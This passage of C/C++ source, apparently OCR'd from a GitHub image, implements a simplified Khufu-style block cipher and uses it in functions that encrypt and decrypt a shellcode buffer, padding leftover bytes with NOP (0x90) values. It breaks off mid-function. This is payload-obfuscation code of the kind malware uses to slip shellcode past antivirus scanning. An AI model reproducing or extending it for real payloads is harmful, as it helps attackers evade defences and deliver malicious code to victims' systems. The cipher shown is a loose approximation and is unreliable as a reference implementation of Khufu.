 ```cpp
  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}

void khufu_decrypt(uint8_t *block, uint8_t *key) {
  uint32_t left = ((uint32_t)block[0] << 24) | ((uint32_t)block[1] << 16) | ((uint32_t)block[2] << 8) | (uint32_t)block[3];
  uint32_t right = ((uint32_t)block[4] << 24) | ((uint32_t)block[5] << 16) | ((uint32_t)block[6] << 8) | (uint32_t)block[7];

  left ^= ((uint32_t)key[8] << 24) | ((uint32_t)key[9] << 16) | ((uint32_t)key[10] << 8) | (uint32_t)key[11];
  right ^= ((uint32_t)key[12] << 24) | ((uint32_t)key[13] << 16) | ((uint32_t)key[14] << 8) | (uint32_t)key[15];

  for (int round = ROUNDS - 1; round >= 0; round--) {
    uint32_t temp = right;
    right = left ^ sbox[right & 0xFF];
    left = (temp << 8) | (temp >> 24);
    uint32_t temp2 = left;
    left = right;
    right = temp2;
  }

  left ^= ((uint32_t)key[0] << 24) | ((uint32_t)key[1] << 16) | ((uint32_t)key[2] << 8) | (uint32_t)key[3];
  right ^= ((uint32_t)key[4] << 24) | ((uint32_t)key[5] << 16) | ((uint32_t)key[6] << 8) | (uint32_t)key[7];

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}

void khufu_encrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    khufu_encrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, remaining);
  khufu_encrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, remaining);
  }
}

void khufu_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
```